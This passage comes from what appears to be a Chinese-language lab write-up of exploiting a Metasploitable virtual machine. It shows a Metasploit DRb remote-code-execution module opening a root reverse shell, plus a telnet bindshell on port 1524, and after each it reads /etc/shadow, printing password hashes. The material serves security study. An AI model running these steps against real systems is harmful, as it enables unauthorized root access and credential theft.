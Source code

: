 - 漏洞利用：

```
[7:17:19] xubiang:EXP1 $ msfconsole 
                                                  
...

msf6 > use exploit/drb_remote_codeexec
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(drb_remote_codeexec) > set RHOSTS 192.168.43.38
RHOSTS => 192.168.43.38
msf6 exploit(drb_remote_codeexec) > exploit 

[*] Started reverse TCP handler on 192.168.43.98:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Trying to exploit instance_eval method
[!] Target is not vulnerable to instance_eval method
[*] Trying to exploit syscall method
[!] Target is not vulnerable to syscall method
[*] Trying to exploit trap method
[!] Target is not vulnerable to trap method
[*] Command shell session 1 opened (192.168.43.98:4444 -> 192.168.43.38:37341 ) at 2022-05-08 07:18:11 -0400

id
uid=0(root) gid=0(root)
[-] Command shell session 2 is not valid and will be closed
[*] 192.168.43.38 - Command shell session 2 closed.
cat /etc/shadow
root:$1$7DSzfpME$3a45316tWZF9TZWi48eub/:19107:0:99999:7:::
...
msfadmin:$1$FKo1UCia$KxgF2WmQNsKY2lC3nPp4n/:19107:0:99999:7:::
...
```

![4.5](https://raw.githubusercontent.com/BIIIANG/pic/main/202205081920329.png)

### 4.2 弱口令类

#### 4.2.1 `bindshell`

```
[3:58:19] xubiang:EXP1 $ telnet 192.168.43.38 1524
Trying 192.168.43.38...
Connected to 192.168.43.38.
Escape character is '^]'.
root@metasploitable:/# id
uid=0(root) gid=0(root) groups=0(root)
root@metasploitable:/# root@metasploitable:/# cat /etc/shadow
root:$1$7DSzfpME$3a45316tWZF9TZWi48eub/:19107:0:99999:7:::
...
msfadmin:$1$FKo1UCia$KxgF2WmQNsKY2lC3nPp4n/:19107:0:99999:7:::
...
```
